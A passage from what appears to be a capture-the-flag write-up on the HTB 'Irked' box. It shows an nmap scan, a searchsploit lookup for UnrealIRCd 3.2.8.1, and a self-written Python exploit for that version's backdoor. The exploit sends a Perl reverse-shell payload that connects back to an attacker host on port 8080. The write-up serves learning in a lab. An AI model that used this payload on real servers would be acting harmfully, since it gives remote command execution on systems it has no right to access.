 Now that we have some ports let's double check 6697 and 8067 with a more detailed scan:
```
root@kali: nmap -sC -sV -p 8067,6697 10.10.10.117                             
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-31 17:07 AEDT
Nmap scan report for 10.10.10.117
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.66 seconds
```

Searching the service name for any known exploits we get some good results:
```
root@kali: searchsploit unrealirc                                                    
--------------------------------------------------------- ----------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metaspl | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow  | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute           | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                | exploits/windows/dos/27407.pl
--------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Looking through the exploits 13853 has a bunch of different payloads which look like they perform command execution, (probably the same as the metasploit module). Doing some research on the exploit it looks like it is a deliberate backdoor that allows command execution if the input starts with AB; 

We came here to learn so let's take what we have learned from the existing exploits and see if we can write our own:
```
import socket

ip = "10.10.10.117"
port = 8067

payload = b'AB;perl -MIO -e \'$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.14.6:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};\';\n'

buf = 5000

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sock.connect((ip, port))

sock.send(payload)
data = sock.recv(buf)
sock.close
print(data)
```
